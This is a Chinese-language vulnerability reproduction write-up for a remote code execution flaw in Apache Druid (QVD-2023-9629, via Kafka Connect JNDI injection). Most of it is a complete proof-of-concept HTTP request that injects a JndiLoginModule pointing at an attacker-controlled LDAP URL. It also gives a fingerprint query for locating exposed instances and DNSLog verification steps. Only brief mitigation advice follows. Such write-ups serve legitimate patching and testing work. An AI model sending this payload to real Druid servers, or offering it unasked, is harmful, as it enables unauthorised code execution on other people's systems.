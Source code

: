 # Apache Druid 远程代码执行漏洞 QVD-2023-9629

## 漏洞描述

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。

## 漏洞影响

```
Apache Druid <= 25.0.0
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：

![image-20230801093324881](images/image-20230801093324881.png)

在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。

poc：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"1.1.1.1:9092",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"any",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

修改请求包，user.provider.url 处填写你的 ldap 服务 url。

利用 DNSLog 验证漏洞是否存在。

## 修复建议

- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html
